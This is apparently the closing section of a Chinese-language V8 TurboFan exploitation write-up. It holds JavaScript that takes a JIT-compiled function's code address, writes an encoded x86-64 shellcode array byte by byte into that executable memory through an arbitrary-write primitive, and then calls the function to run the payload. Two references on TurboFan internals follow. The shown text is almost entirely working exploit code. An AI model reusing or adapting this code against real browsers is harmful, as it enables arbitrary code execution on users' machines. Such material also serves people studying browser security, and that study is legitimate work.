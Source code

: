 ```javascript
let rwx_addr = code_addr;
console.log('[*]jit_func_addr:',hex((jit_func_addr)));
//%DebugPrint(fake_obj);
console.log('[*]code_addr:',hex((code_addr)));
//%DebugPrint(big_jit_func);
//%SystemBreak();
code_addr[0] += 0x60;

const shellcode = [0x90,0x90,0x90,0x90,0x90,72, 49, 201, 72, 129, 233, 247, 255, 255, 255, 72, 141, 5, 239, 255, 255, 255, 72, 187, 124, 199, 145, 218, 201, 186, 175, 93, 72, 49, 88, 39, 72, 45, 248, 255, 255, 255, 226, 244, 22, 252, 201, 67, 129, 1, 128, 63, 21, 169, 190, 169, 161, 186, 252, 21, 245, 32, 249, 247, 170, 186, 175, 21, 245, 33, 195, 50, 211, 186, 175, 93, 25, 191, 225, 181, 187, 206, 143, 25, 53, 148, 193, 150, 136, 227, 146, 103, 76, 233, 161, 225, 177, 217, 206, 49, 31, 199, 199, 141, 129, 51, 73, 82, 121, 199, 145, 218, 201, 186, 175, 93];

//let sc = new Uint32Array(rwx_addr);consol
for(var i = 0;i < shellcode.length;i++) {

    
    arb_write(code_addr,[shellcode[i],shellcode[i]]);
    //%DebugPrint(code_addr);
    code_addr[0] = code_addr[0]+1+0x10;//arb_write中-=0x10
    //%SystemBreak();
}
//%SystemBreak();
big_jit_func({x:1.2,y:1.1,z:1.3},{x:1.3,y:1.4,z:5.1});

//%SystemBreak();
```



#### 参考

1. [浅析 V8-turboFan（下）](https://www.anquanke.com/post/id/229554)

2. [Introduction to TurboFan](https://doar-e.github.io/blog/2019/01/28/introduction-to-turbofan/)